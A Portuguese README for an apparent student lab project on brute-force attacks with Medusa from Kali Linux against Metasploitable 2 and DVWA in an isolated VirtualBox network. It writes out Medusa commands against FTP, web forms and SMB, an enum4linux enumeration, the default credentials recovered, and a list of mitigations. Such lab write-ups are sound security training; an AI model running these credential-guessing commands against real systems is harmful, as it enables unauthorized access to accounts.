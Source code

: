 # Projeto: Simulação de Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

## 1. Objetivo
- Compreender ataques de força bruta em diferentes serviços (FTP, Web, SMB);
- Utilizar o Kali Linux e o Medusa para auditoria de segurança em ambiente controlado;
- Documentar processos técnicos de forma clara e estruturada;
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação;
- Utilizar o GitHub como portfólio técnico para compartilhar documentação e evidências.

## 2. Ambiente de Teste
- Host: VirtualBox (Host-Only network)
- VMs:
  - Kali Linux (192.168.56.102)
  - Metasploitable 2: (192.168.56.101)
  - DVWA em /var/www/html/dvwa

## 3. Ferramentas
- Medusa, enum4linux, smbclient, curl, netcat, wireshark

## 4. Wordlists usadas
- users.txt (5 itens)
- passwords.txt (6 itens)
- pass_spray.txt (3 itens)

## 5. Comandos Executados
### FTP
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 4 -v 4 | tee medusa_ftp.log`

### HTTP (template)
`medusa -h 192.168.56.101 -M http_form -m FORM:... -U users.txt -P passwords.txt -t 6 -v 4 | tee medusa_http.log`

### SMB / Password Spraying
`enum4linux -a 192.168.56.101`
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt -t 4 -v 4 | tee medusa_smb.log`

## 6. Resultados e validação
- Credenciais descobertas:
  - user: msfadmin / password: msfadmin (exemplo)
- Comandos de validação:
  - `ftp 192.168.56.101`, `smbclient -L //192.168.56.101 -U msfadmin`

## 7. Recomendações de Mitigação
- Lockout / throttle: bloqueio após N tentativas ou backoff exponencial.
- MFA para acessos críticos (FTP, aplicações web).
- Rate limiting em endpoints de login e WAF.
- Senha forte + política de expiração; no geral tokens e senhas únicas.
- Monitoring / SIEM: alertas para múltiplas falhas de autenticação, geolocalização anômala.
- Fail2ban em serviços (FTP/SSH/web) para bloquear IPs após muitas falhas.
- Desativar serviços não necessários (ex.: FTP se não for usado)
- Segurança SMB: aplicar patches, desabilitar SMBv1, políticas de bloqueio.
- Proteção CSRF / tokens em formulários (DVWA exemplo).
- Treinamento de usuários e pentests periódicos.
